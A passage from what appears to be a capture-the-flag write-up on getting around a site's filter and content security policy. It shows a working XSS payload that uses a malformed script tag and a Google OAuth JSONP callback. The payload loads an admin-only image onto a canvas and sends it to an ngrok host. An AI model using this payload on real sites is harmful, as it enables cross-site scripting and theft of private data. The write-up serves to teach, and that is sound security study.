 We are doomed... at this point I even tried using a *Worker* as suggested. You can create a worker on-the-fly as such:

```js
function startNewWorker(code) {
  var blob = new Blob([code], {type: 'application/javascript'});
  var worker = new Worker(URL.createObjectURL(blob));
}
function z() {
  // do something ....
}
const w1 = startNewWorker('('+z.toString()+')()');
```

But this solution did not work either, because CSP policy refused to load the worker script!

I eventually thought of **loading the image through an actual `<img>` tag**. This way, maybe we can extract the contents of the image once it has been loaded. It turns out you can, by using a **canvas**. Here's how:

```js
var img=new Image;
img.crossOrigin='Anonymous';
img.src='/admin/img/175193053491407376ff47dc6e834673.png';
var c=document.createElement('canvas');
c.height=img.naturalHeight;
c.width=img.naturalWidth;
c.getContext('2d').drawImage(img, 0, 0, c.width, c.height);
window.location=encodeURI('http://ngrok.../?x='.concat(c.toDataURL()));
```

The image is loaded in an `<img>` tag, and a canvas is drawn with the loaded image. Then, the `toDataURL` method allows us to get a base64 `data:` representation of the drawn image, which we can exfiltrate!

The last issue we have to take care of is that the image should have finished loading before being drawn in the canvas, otherwise it will end up being empty. Since we didn't have luck with asynchronous "onload" type of events, we simply used a `setTimeout` which waits long enough before creating the canvas.

Here is the final payload:

```html
<scri<script>pt src="https://accounts.google.com/o/oauth2/revoke?callback=var img=new Image;img.crossOrigin='Anonymous';img.src='/admin/img/175193053491407376ff47dc6e834673.png';setTimeout(function(){var c=document.createElement('canvas');c.height=img.naturalHeight;c.width=img.naturalWidth;var ctx=c.getContext('2d');ctx.drawImage(img,0,0,c.width,c.height);window.location=encodeURI('http://ngrok.../?x='.concat(c.toDataURL());},3000);"></scri</script>pt>
```

And the exfiltrated image:
